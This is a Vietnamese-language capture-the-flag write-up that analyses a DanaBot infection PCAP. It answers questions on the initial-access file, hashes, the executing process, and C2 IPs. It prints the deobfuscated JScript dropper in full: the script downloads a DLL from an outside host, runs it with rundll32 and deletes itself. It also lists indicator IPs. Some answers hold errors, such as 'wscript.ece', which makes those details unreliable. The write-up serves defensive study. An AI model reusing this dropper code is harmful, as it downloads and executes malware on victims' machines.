




# DanaBot

## Summary

- [Q1: What is the malicious file name used for initial access?](#q1-what-is-the-malicious-file-name-used-for-initial-access)
- [Q2: What is the sha256 hash of the file used for initial access?](#q2-what-is-the-sha256-hash-of-the-file-used-for-initial-access)
- [Q3: What is the process used to execute the malicious file?](#q3-what-is-the-process-used-to-execute-the-malicious-file)
- [Q4: What is the extension of the second malicious file used by the attacker?](#q4-what-is-the-extension-of-the-second-malicious-file-used-by-the-attacker)
- [Q5: What is the MD5 hash of the second malicious file?](#q5-what-is-the-md5-hash-of-the-second-malicious-file)
- [Q6: What is the IP address used by the attacker in initial access?](#q6-what-is-the-ip-address-used-by-the-attacker-in-initial-access)
- [Q7: What is the last malicious IP address in the PCAP that is known to be used as CnC by DanaBot?](#q7-what-is-the-last-malicious-ip-address-in-the-pcap-that-is-known-to-be-used-as-cnc-by-danabot)

---

### Q1: What is the malicious file name used for initial access?

Kiểm tra lưu lượng mạng trong pcap. Cách nhanh nhất để xác định file được mã độc được gửi qua mạng là trích xuất và kiểm tra các file.  
Kết hớp với việc phân tích lưu lượng mạng. Ta đoán được máy tính IP `10.2.14.101` kết nối tới máy `62.173.142.148` - là một máy chạy dịch vụ web.

Sau khi phân giải DNS ở máy `10.2.14.1` và máy `10.2.14.101` đã kết nối tới `62.173.142.148` để request tài nguyên.



Nhìn thấy HTTP request ở packet `no.6` và trang được trả về ở packet `no.11` là trang `login.php`. Kèm với một tệp đính kèm tên là `allegato_708.js`

Có thể dễ dàng trích xuất nội dung file `login.php` được trả về để phân tích:

```text
File > Export Objects > HTTP > Save file login.php
```

Tuy nhiên, khi mở đọc nội dung file `login.php` thì ta thấy nội dung file đã bị làm xáo trộn. Đây là kỹ thuật **JavaScript Obfuscator**.

> JavaScript Obfuscator là một kỹ thuật được sử dụng để làm cho mã JavaScript khó đọc và khó hiểu hơn đối với con người, nhưng vẫn có thể chạy bình thường trên trình duyệt. Mục đích chính của obfuscation là bảo vệ mã nguồn khỏi bị sao chép, ngăn chặn việc sửa đổi trái phép, hoặc che giấu logic kinh doanh, nhưng nó không phải là một biện pháp bảo mật tuyệt đối.
> 
> Khi obfuscation được áp dụng, tên biến, hàm, và chuỗi trong mã JavaScript sẽ bị thay đổi, thường là bằng cách thay thế chúng bằng các ký tự không dễ đọc hoặc khó đoán. Ngoài ra, mã có thể được tổ chức lại, thêm các đoạn mã thừa để gây khó khăn cho việc phân tích và hiểu.

Sử dụng công cụ Deobfuscator [link](https://obf-io.deobfuscate.io/)

Thu được mã tường minh:

```js
// file allegato_708.js
function _0x414360(_0x5c5160) {
  var _0x119065 = '';
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(Math.floor(Math.random() * _0x5a393f));
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 = new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) + "\\" + _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptFullName);
```

Phân tích đoạn mã trên, mã là một tập lệnh được viết bằng JScript (một biến thể của JavaScript dành cho Windows Script Host), sử dụng các đối tượng COM như `ActiveXObject` và `WScript` để tải xuống và thực thi một file DLL từ một nguồn bên ngoài.  
Và qua đó có thể kết luận đây là một file mã độc, sử dụng để tải một file dll về máy và thực thi.

```text
# flag
allegato_708.js
```

---

### Q2: What is the sha256 hash of the file used for initial access?

Sử dụng sha256sum (linux) hoặc tool online để hash sha256 file `login.php` - file chứa file mã độc.

```text
# flag
847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268
```

---

### Q3: What is the process used to execute the malicious file?

Trong trường hợp này, malicious file vẫn là file `allegato_708.js` được đính kèm trong trang `login.php`.

Kiểm tra đoạn mã js trên là một đoạn mã độc được viết bằng JavaScript cho Windows Script Host (WSH). Nó thực hiện một chuỗi hành động có mục đích tải về, lưu, thực thi và sau đó xóa chính nó để tránh bị phát hiện.

Đoạn mã này được viết để chạy trong môi trường Windows Script Host (WSH), một hệ thống của Windows có thể thực thi các script như VBScript (.vbs) và JScript (.js). Do đó, chương trình thực thi mã này là Windows Script Host.

- `wscript.exe`: Thực thi script giao diện đồ họa.
- `cscript.exe`: Chạy với giao diện dòng lệnh.

Trong trường hợp này sẽ là `wscript.ece`

```text
# flag
wscript.ece
```

---

### Q4: What is the extension of the second malicious file used by the attacker?

Trong đoạn mã độc js trên thì file được tải về thực thi là file `resources.dll`:

```js
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
```

```text
# flag
dll
```

---

### Q5: What is the MD5 hash of the second malicious file?

Có thể export file dll được gửi qua mạng:

> File > Export Objects > HTTP > resources.dll

```text
# flag
e758e07113016aca55d9eda2b0ffeebe
```

---

### Q6: What is the IP address used by the attacker in initial access?

Sử dụng đoạn hash file dll trên và tìm kiếm trên [virustotal](https://www.virustotal.com/gui/)



Ở tab `Behavior` ta thấy các IP Trafic mà chương trình kết nối tới:



Trong đó có IP `62.173.142.148` là Ip máy nạn nhân truy cập và chạy file `allegato_708.js`. Như vậy có thể kết luận đây là IP attacker.

```text
# flag
62.173.142.148
```

---

### Q7: What is the last malicious IP address in the PCAP that is known to be used as CnC by DanaBot?

Có 2 cách làm ở phần này, ở mức độ cơ bản có thể tìm kiếm thông tin về malware Danabot. Nâng cao hơn là phân tích file resources.dll kết hợp với lưu lượng mạng trong file pcap để đưa ra kết luận.

Trong trường hợp của bài lab, có thể tham khảo các IOC sẵn có về malware Danabot để có câu trả lời.

[IOC](https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2024-02-14-IOCs-from-Danabot-infection.txt)

```tetx
DANABOT C2 TRAFFIC:

- 62.173.146[.]41 port 443 - attempted TCP connections: SYN from client, RST from server
- 91.201.67[.]85 port 443 - encoded/encrypted TCP traffic, only one TCP stream
- 195.133.88[.]98 port 443 - encoded/encrypted TCP traffic, consistently used as Danabot C2
```

Dựa theo thông tin IOC, ta thấy có 3 IP C2 của malware.

Tìm kiếm trong file pcap:

```text
ip.addr == 62.173.146.41 || ip.addr == 91.201.67.85 || ip.addr == 195.133.88.98
```



```text
# flag
91.201.67.85
```
